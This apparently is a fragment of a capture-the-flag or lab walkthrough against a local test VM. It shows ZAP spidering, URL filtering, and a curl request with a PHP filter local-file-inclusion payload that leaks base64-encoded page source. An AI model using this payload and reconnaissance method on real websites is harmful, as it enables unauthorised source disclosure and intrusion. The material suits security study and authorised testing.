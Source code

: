 `zaproxy`

`Sites: http://192.168.56.132` > `<right-click>` > `Attack` > `Spider...` > `Starting Point: http://192.168.56.132`, `Recurse: enabled`, `Show Advanced Options: enabled` > `Start Scan` > `Export` > `./spider.csv`

`cat ./spider.csv`:
```
Processed,Method,URI,Flags
true,GET,http://192.168.56.132,Seed
true,GET,http://192.168.56.132/robots.txt,Seed
true,GET,http://192.168.56.132/sitemap.xml,Seed
true,GET,http://192.168.56.132/.php,Seed

[...]

true,GET,http://192.168.56.132/styles/?C=M;O=D,
true,GET,http://192.168.56.132/styles/?C=S;O=D,
true,GET,http://192.168.56.132/styles/?C=D;O=D,
```

`cat ./spider.csv | grep "true" | cut -d ',' -f 3 | tee ./spider_urls.list`:
```
http://192.168.56.132/admin.php ←
http://192.168.56.132/config.php ←
http://192.168.56.132/index.php
http://192.168.56.132/login.php
http://192.168.56.132/logout.php
http://192.168.56.132/register.php
http://192.168.56.132/reset_pass.php ←
http://192.168.56.132/restricted.php
http://192.168.56.132/shop_cart.php
http://192.168.56.132/shop_cart.php?action=buy ←

[...]
```

`curl "http://192.168.56.132/shop_cart.php?action=php://filter/convert.base64-encode/resource=buy" -b "PHPSESSID=lmuhnvetfqp9615v0l6b5vst91" -s`:
```html
<html>

[...]
      PGRpdiBjbGFzcz0iYnV5LWJvZHkiPgogICAgPGZvcm0gY2xhc3M9ImJ1eS1mb3JtIiBhY3Rpb249InNob3BfY2FydC5waHAiIG1ldGhvZD0icG9zdCI+CiAgICAgICAgPGxhYmVsIGZvcj0iZGlyZWNjaW9uIj5BZGRyZXNzOjwvbGFiZWw+CiAgICAgICAgPGlucHV0IHR5cGU9InRleHQiIGlkPSJkaXJlY2Npb24iIG5hbWU9ImRpc
  
[...]

RhcmlvcyIgbmFtZT0iY29tZW50YXJpb3MiIHJvd3M9IjQiIGNvbHM9IjUwIj48L3RleHRhcmVhPgogICAgICAgIDxicj4KICAgICAgICA8aW5wdXQgdHlwZT0ic3VibWl0IiB2YWx1ZT0iRW5kIHB1cmNoYXNlIj4KICAgIDwvZm9ybT4KPC9kaXY+Cg==

[...]

</html> 
```
